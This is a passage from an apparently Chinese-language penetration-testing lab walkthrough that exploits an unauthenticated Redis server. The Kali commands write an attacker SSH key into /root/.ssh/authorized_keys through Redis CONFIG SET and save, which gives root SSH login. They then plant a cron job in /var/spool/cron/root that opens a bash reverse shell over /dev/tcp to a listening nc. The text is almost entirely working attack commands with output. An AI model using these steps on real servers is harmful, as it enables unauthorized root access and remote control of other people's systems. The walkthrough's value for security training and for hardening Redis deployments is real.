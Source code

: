```bash
|      o S B =    |
|     * * * + .  .|
|    + O B *   .o |
|   o * = Eoo.oo .|
|    . o.=o==++o..|
+----[SHA256]-----+
```

将生成的公钥保存到1.txt，避免前面有冗余数据多加换行，连接靶机上的redis服务，将保存ssh公钥的1.txt写入redis

```bash
root@kali:~/.ssh# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n")>1.txt
root@kali:~/.ssh# cat 1.txt | redis-cli -h 192.168.211.141 -x set crack
OK
```

更改redis备份路径为ssh公钥存放目录（一般默认为/root/.ssh），设置上传公钥的备份文件名字为authorized_keys，保存save

```bash
root@kali:~# redis-cli -h 192.168.211.141
192.168.211.141:6379> CONFIG GET dir
1) "dir"
2) "/tmp"
192.168.211.141:6379> CONFIG SET dir /root/.ssh
OK
192.168.211.141:6379> CONFIG SET dbfilename authorized_keys
OK
192.168.211.141:6379> save
OK
192.168.211.141:6379> exit
```

在攻击机上使用ssh私钥登录靶机

```bash
root@kali:~/.ssh# ssh -i id_rsa root@192.168.211.141
```

## 利用crontab反弹shell

ubuntu不建议用这个方法，因为ubuntu的crontab限制严格。连接redis，写入反弹shell，并设置写入的目录及文件名。Nc监听，接收shell

```bash
root@kali:~# redis-cli -h 192.168.211.141
192.168.211.141:6379> set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.211.129/4444 0>&1\n\n"
OK
192.168.211.141:6379> CONFIG SET dir /var/spool/cron
OK
192.168.211.141:6379> CONFIG SET dbfilename root
OK
192.168.211.141:6379> save 
OK
192.168.211.141:6379> exit
root@kali:~# nc -lvnp 4444
```
